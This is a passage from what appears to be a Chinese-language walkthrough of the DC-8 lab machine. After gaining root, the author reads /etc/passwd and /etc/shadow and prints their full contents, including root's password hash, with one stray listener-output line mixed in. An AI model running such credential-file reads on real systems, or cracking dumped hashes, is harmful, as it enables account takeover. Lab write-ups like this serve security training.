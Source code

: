- 通过root权限查看敏感信息`cat /etc/passwd`

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
dc8user:x:1000:1000:dc8user,,,:/home/dc8user:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-exim:x:108:113::/var/spool/exim4:/bin/false
```

- 通过root权限查看敏感信息`cat /etc/shadow`

```
cat etclocalhost [127.0.0.1] 31337 (?) open
cat /etc/shadow
root:$6$hpnGzStq$WhB2YFhPJ/4EIda9Rz1Ud/YTyjw3WC0aQbFCjDr.6GqzPHYn8iaAoUJBZ/EtURd6GCTntjIITj4dEuvKTHb2F1:18143:0:99999:7:::
daemon:*:18143:0:99999:7:::
bin:*:18143:0:99999:7:::
sys:*:18143:0:99999:7:::
sync:*:18143:0:99999:7:::
games:*:18143:0:99999:7:::
man:*:18143:0:99999:7:::
lp:*:18143:0:99999:7:::
mail:*:18143:0:99999:7:::
news:*:18143:0:99999:7:::
uucp:*:18143:0:99999:7:::
proxy:*:18143:0:99999:7:::
www-data:*:18143:0:99999:7:::
backup:*:18143:0:99999:7:::
list:*:18143:0:99999:7:::
irc:*:18143:0:99999:7:::
gnats:*:18143:0:99999:7:::
nobody:*:18143:0:99999:7:::
systemd-timesync:*:18143:0:99999:7:::
systemd-network:*:18143:0:99999:7:::
systemd-resolve:*:18143:0:99999:7:::
systemd-bus-proxy:*:18143:0:99999:7:::
_apt:*:18143:0:99999:7:::
messagebus:*:18143:0:99999:7:::
sshd:*:18143:0:99999:7:::
```
